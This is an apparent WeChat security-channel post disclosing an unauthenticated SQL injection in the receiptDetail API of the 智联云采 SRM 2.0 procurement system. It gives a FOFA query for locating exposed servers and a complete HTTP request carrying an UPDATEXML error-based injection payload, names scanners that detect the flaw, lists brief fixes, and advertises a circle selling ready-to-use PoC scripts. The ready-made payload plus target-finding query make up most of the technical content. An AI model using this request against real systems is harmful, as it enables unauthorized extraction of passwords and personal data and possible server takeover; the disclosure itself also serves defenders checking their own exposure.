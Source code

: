 #  智联云采 SRM2.0 receiptDetail SQL注入漏洞   
Superhero  nday POC   2024-12-04 02:16  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkYN4sZibCVo6EFo0N9b7Kib4I4N6j6Y10tynLOdgov9ibUmaNwW5yeoCbQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkhic5lbbPcpxTLtLccZ04WhwDotW7g2b3zBgZeS5uvFH4dxf0tj0Rutw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCk524CiapZejYicic1Hf8LPt8qR893A3IP38J3NMmskDZjyqNkShewpibEfA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
  
**00******  
  
**产品简介**  
  
  
智联云采是一款针对企业供应链管理难题及智能化转型升级需求而设计的解决方案，针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。  
  
  
**01******  
  
**漏洞概述**  
  
  
由于智联云采 SRM2.0 receiptDetail 接口可未授权执行SQL语句，存在极大的安全风险，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。  
  
  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
title=="SRM 2.0"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwJuibIEdHniaVFupF2xhyJLgBiaiclc1QvSWzLgogqHrX6C6TwBUUZKdxCjwhWbbEibbK8Lwv63EAQgFwA/640?wx_fmt=png&from=appmsg "")  
  
  
**03******  
  
**漏洞复现**  
```
POST /adpweb/api/srm/delivery/receiptDetail?orderBy=%28UPDATEXML%288058%2CCONCAT%280x2e%2C0x71707a7671%2C%28SELECT+%28ELT%288058%3D8058%2C1%29%29%29%2C0x71766a7671%29%2C3521%29%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIXtd1BcA6wl9JUqQ8Lon08ic5IXiaBLw8ciaria3WUmn2Gsd0Kq69c9t94HFia3DcImzthRo6baBibfUGw/640?wx_fmt=png&from=appmsg "")  
  
  
**04**  
  
**检测工具**  
  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIXtd1BcA6wl9JUqQ8Lon08QgRXicDnxTiccicr9S6vsOy2vjf9viaeCiaoE8rY8liaUocV3FNExBl5iaemw/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIXtd1BcA6wl9JUqQ8Lon08AoSFxa3dlaR3iafCW7P8WaT0TIofADicPQnpvNAlmbhibvQczfyYia4icXw/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIXtd1BcA6wl9JUqQ8Lon08NdRbNJKfQXEz66K6mmM4C4wicXUqb9qy04Ve3CX3X5BcDzC28YRq2IQ/640?wx_fmt=png&from=appmsg "")  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、升级至安全版本  
  
  
**06******  
  
**内部圈子介绍**  
  
  
1、本圈子主要是分享网上公布的1day/nday POC详情及对应检测脚本，目前POC脚本均支持xray、afrog、nuclei等三款常用工具。  
  
2、三款工具都支持内置poc+自写poc目录一起扫描。  
  
3、保持每周更新10-15个poc。  
  
4、所发布的POC脚本均已测试完毕，直接拿来即用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
  
